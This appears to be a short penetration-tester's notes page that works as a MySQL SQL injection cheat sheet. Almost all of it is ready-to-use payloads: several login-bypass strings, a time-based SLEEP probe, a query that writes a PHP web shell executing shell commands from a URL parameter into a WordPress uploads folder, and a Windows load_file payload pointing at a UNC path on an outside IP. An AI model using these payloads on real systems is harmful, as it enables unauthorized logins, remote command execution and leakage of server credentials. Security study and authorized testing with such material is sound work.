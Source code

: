 ```yaml
---
tags:
  - Enumeration
  - TCP
---
```


# Guide

1. [MySQL SQL Injection Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
# Injection Commands

# Example Login Queries

```
SELECT * FROM users where ((password = hash({password})) and (username = {username}))
```

## Password Bypass

```
' or 1=1
```
```
admin' --
```
```
' or '1'='1'--'
```
```
' or 1=1 -- -
```
```
' UNION SELECT SLEEP(10);-- --
```

# Save File

```
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

# Windows

```
term=10' UNION SELECT 1,load_file('\\\\192.168.19.26\\test'),3-- -
```